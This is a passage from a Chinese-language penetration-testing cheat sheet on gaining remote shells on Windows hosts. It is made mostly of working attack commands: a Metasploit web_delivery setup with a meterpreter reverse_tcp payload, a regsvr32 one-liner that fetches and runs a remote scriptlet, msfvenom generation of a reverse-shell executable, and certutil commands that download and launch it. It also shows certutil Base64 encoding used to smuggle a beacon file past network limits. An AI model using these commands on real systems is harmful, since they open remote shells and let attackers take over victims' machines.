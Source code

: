 ```plaintext
use exploit/multi/script/web_delivery
set srvhost <Host>
set target 3
set payload windows/x64/meterpreter/reverse_tcp
set lhost <Host>
exploit -j
```

客户端执行上线。

```plaintext
regsvr32 /s /n /u /i:http://<Host>/xxx.sct scrobj.dll
```

#### 2.1.5 Certutil

生成 exe。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Host> LPORT=<Port> -f exe > attack.exe
```

下载文件到 C:\\Windows\\Temp\\ 并执行，最后删除缓存。

```plaintext
certutil -urlcache -split -f http://<Host>/attack.exe C:\Windows\Temp\attack.exe & start C:\attack.exe

// 删除缓存
certutil -urlcache -split -f http://<Host>/attack.exe
```

有时能够执行命令不出网没法下载文件，在 @AabyssZG 博客中[《SQL 注入恶劣环境之可执行文件上传骚姿势》](https://blog.zgsec.cn/archives/258.html)一文可以通过 Certutil 编解码功能来传输文件。网络稳定的情况下传一些小文件很好用，在此记录下。

先将文件编码 `Certutil -encode <要编码的文件> <编码后文件>`。

```plaintext
E:\Desktop>DIR /C student_raingray_beacon.exe
 驱动器 E 中的卷是 SoftWare2
 卷的序列号是 7E0F-A68D

 E:\Desktop 的目录

2023/05/19  11:18           288,256 student_raingray_beacon.exe
               1 个文件        288,256 字节
               0 个目录 598,579,605,504 可用字节

E:\Desktop>Certutil -encode student_raingray_beacon.exe student_raingray_beacon
输入长度 = 288256
输出长度 = 396412
CertUtil: -encode 命令成功完成。
```

会发现文件被 Base64 编码。

```plaintext
-----BEGIN CERTIFICATE-----
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
......
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAA==
-----END CERTIFICATE-----
```
